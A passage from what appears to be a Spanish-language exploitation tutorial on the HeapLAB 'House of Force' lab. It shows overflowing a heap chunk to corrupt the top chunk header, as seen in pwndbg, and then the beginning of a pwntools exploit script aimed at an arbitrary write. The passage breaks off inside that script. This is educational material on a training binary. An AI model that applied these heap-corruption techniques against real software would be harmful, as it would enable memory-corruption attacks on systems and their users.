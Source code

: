 ```bash
===============
|   HeapLAB   |  House of Force
===============

puts() @ 0x7ffff786df10
heap @ 0x603000

1) malloc 0/4
2) target
3) quit
> 1
size: 24
data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

> Con `Ctl+C` podemos detener la ejecución y con `vis`, ver el heap.

```bash
pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000021	........!.......
0x603010	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603020	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA	 <-- Top chunk
```

Vemos algo interesante, nuestras `A` han sobrescrito la cabecera del *top chunk*. Ahora podremos reservar un chunk más grande del tamaño del heap.

## Escritura arbitraria

Como hemos visto antes, hay una variable target que tenemos opción de consultar. Utilizando la *House of Force*, podemos tratar de sobrescribirla.

Para ello utilizaremos [[pwntools]] en el siguiente script:

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("house_of_force")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

# Selccion la opcion "malloc", los argumentos son el tamaño y los datos a reservar.
def malloc(size, data):
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")

# Calcula la distncia entre dos direcciones.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# El binario da un leak de libc de la funcion puts(), con estas lineas calculamos la direccion base de libc.
```